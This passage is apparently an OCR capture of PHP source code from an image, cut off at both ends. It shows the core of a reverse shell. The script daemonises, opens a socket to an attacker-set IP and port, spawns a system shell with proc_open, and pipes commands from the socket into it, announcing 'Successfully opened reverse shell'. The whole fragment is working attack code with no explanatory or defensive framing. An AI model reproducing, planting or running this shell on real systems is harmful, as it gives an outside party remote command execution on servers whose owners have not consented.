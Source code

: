 ```
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
```